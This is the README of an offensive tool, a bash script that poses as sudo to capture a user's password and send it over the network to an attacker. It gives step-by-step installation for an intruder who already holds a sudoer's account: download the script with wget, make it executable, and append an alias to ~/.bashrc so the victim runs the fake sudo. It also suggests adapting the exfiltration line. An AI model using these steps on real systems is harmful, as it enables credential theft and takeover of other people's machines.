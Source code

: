 # Sudo backdoor
This bash script mimics the original sudo binary behavior to con a user into
typing his password.

The backdoored sudo displays different message based on the locale language used
on the host (english and french for the time being).

The password is sent over the network for the attacker to retrieve.

## Installation
Once you gain access to a user account that you suspect being sudoer, you can
place this backdoored sudo script to gain administrative control over the host.

```
wget https://raw.githubusercontent.com/nisay759/sudo-backdoor/master/sudo.sh -O /somewhere/sudo
chmod +x /somewhere/sudo
```

Modify the script (the line before the last one) to adapt the extraction method
with a one that fits your use-case.

Next, you want the user to call the backdoored sudo instead of the original one:

```
echo 'alias sudo="/somewhere/sudo"' >> ~/.bashrc
```
for example.

## TODO
- [ ] Add support for other locales
